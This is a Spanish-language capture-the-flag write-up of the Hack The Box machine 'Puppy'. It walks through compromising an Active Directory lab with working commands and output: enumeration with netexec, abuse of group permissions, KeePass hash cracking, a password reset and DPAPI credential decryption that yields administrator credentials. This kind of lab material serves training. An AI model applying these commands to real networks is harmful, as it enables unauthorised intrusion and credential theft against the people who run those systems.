

# Puppy

- **Plataforma:** HTB 
- **Fecha de resolución:** 26/07/2025
- **Autor:** Albr_0x4a

---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.70 -oG ports

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985,9389,49664,49667,49671,49674,54485,54494,54509 -sCV 10.10.11.70 -oN target


- Una vez obtenidos los puertos abiertos, nos damos cuenta que tenemos un entorno de `AD`, empezamos a investigar, primero por el servicio **SMB** con las credenciales que nos brinda HTB para esta máquina, y buscamos qué recursos compartidos tenemos y posible información expuesta. 

- Después de no encontrar nada de interés en los recursos compartidos, listamos los usuarios utilizando `netexec`:

```bash
netexec smb $IP -u "levi.james" -p 'KingofAkron2025!' --users

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.70     445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain 
SMB         10.10.11.70     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.70     445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account 
SMB         10.10.11.70     445    DC               levi.james                    2025-02-19 12:10:56 0        
SMB         10.10.11.70     445    DC               ant.edwards                   2025-02-19 12:13:14 0        
SMB         10.10.11.70     445    DC               adam.silver                   2025-07-23 20:19:29 0        
SMB         10.10.11.70     445    DC               jamie.williams                2025-02-19 12:17:26 0        
SMB         10.10.11.70     445    DC               steph.cooper                  2025-02-19 12:21:00 0        
SMB         10.10.11.70     445    DC               steph.cooper_adm              2025-03-08 15:50:40 0        
SMB         10.10.11.70     445    DC               [*] Enumerated 9 local users: PUPPY
```

- Para tener una idea generalizada de cómo se relacionan todos estos objetos dentro del entorno de `AD`, utilizamos `bloodhound`, para ello primero extraemos la información con `netexec`:

```bash
netexec ldap puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server 10.10.11.70
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.10.11.70     389    DC               Resolved collection methods: group, localadmin, session, rdp, dcom, psremote, container, objectprops, acl, trusts
LDAP        10.10.11.70     389    DC               Done in 00M 20S
LDAP        10.10.11.70     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.11.70_2025-07-23_160327_bloodhound.zip
```

- Luego lanzamos `bloodhound` y cargamos todos los archivos que nos generó el comando anterior.

- Tras un rato investigando, notamos que el usuario `levi.james`, al que tenemos acceso, pertenece al grupo `HR`, el cual posee el privilegio `GenericWrite` sobre el grupo `DEVELOPERS`, lo cual nos permite agregar usuarios a este grupo, con el siguiente comando:
  
  ```bash
  net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "dc.puppy.htb"
  ```

- Revisamos nuevamente los recursos compartidos, para comprobar si ahora tenemos los privilegios del grupo `DEVELOPERS`, y efectivamente ahora tenemos permiso para acceder y leer el contenido del recurso `DEV`, el cual antes no teníamos.


- En este directorio obtenemos el archivo `recovery.kdbx` el cual es una base de datos cifrada, utilizada por el gestor de contraseñas `KeePassXC`. Si utilizamos la herramienta `keepass2john`, podemos obtener el hash e intentar obtener la contraseña de esta base de datos.


- Con esta contraseña podemos acceder a la base de datos, y obtenemos todas las contraseñas de los usuarios almacenadas en la base de datos.


- Después de probar las contraseñas, encontramos que la única que funciona es la del usuario `ant.edwards`, quien luego de investigarlo nos encontramos con que pertenece al grupo `SENIOR DEVS` que posee el permiso `GenericAll` sobre el usuario `adam.silver`, lo que significa que tenemos control absoluto sobre este usuario.


- Para abusar de este privilegio vamos a tratar de reiniciar la contraseña de el usuario `adam.silver`, para obtener el control de este usuario.



- De manera exitosa logramos cambiar la contraseña, pero al tratar de acceder nos encontramos con que la cuenta no está habilitada, por lo que la habilitamos y accedemos a la máquina ya que el usuario `adam.silver` pertenece al grupo `REMOTE MANAGEMENT USERS`.


- Ya dentro de la máquina, navegamos hasta el escritorio del usuario y obtenemos la primera flag.


- Luego de explorar un poco, encontramos un directorio `Backups` en el directorio `C:\`, el cual contiene un arhcivo `.zip` que nos descargamos a nuestra máquina para inspeccionarlo mejor.


- Al descomprimir este archivo, nos encontramos con una página web, y un archivo `nms-auth-config.xml.bak`, que contiene credenciales del usuario `steph.cooper` que también pertenece al grupo `REMOTE MANAGEMENT USERS` y podemos conectarnos a la máquina de igual forma.


- Una vez dentro del sistema como el usuario `steph.cooper`, y después de un tiempo navegando y enumerando el sistema nos encontramos con una **masterkey** de **DPAPI**, esta se utiliza para cifrar datos sensibles, aqui dejo un recurso para más información sobre **DPAPI**: [enlace](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)


- Al intentar descargar el archivo utilizando `evil-winrm`, obtenemos un error, por lo que procedemos a obtener el archivo utilizando base64.


- Una vez obtenido este archivo, con la herramienta `dpapi.py` de impacket procedemos a obtener la key cifrada, utilizando la misma contraseña que ya tenemos del usuario `steph.cooper`:

```bash
dpapi.py masterkey -file encrypted_file -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Password:
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

- Luego de buscar en varias rutas donde se suelen almacenar estos datos sensibles, encontramos posibles credenciales cifradas en la ruta `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9`, y procedemos a obtener este archivo utilizando nuevamente base64.


- Utilizamos nuevamente la herramienta `dpapi.py` para obtener el contenido cifrado, y obtenemos las credenciales del usuario `steph.cooper_adm`, el cual tiene privilegios de administrador:

```bash
dpapi.py credential -file encrypted_file -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

- Por último nos conectamos al sistema, navegamos a `C:\Users\Administrator\Desktop\`, y obtenemos la flag.

